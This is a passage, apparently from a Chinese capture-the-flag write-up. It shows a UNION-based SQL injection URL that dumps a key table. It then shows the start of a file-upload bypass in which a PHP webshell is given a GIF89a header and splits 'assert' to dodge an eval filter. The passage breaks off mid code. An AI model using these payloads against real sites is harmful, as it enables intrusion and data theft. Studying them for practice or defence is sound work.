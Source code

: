 dump信息`index.php?uuid=1' union select 1,group_concat(haha),3,4,5,6 from IS_KEY -%23-%20`
![upload successful](/images/pasted-798.png)

# 34072 文件上传突破

先传一个jpg的木马，发现jpg都不能上传

![upload successful](/images/pasted-799.png)
这一查看一下jpg的内容，经过fuzz测试发现过滤了eval
```
GIF89a
<?php 
$a='ass';
$b='ert';
```
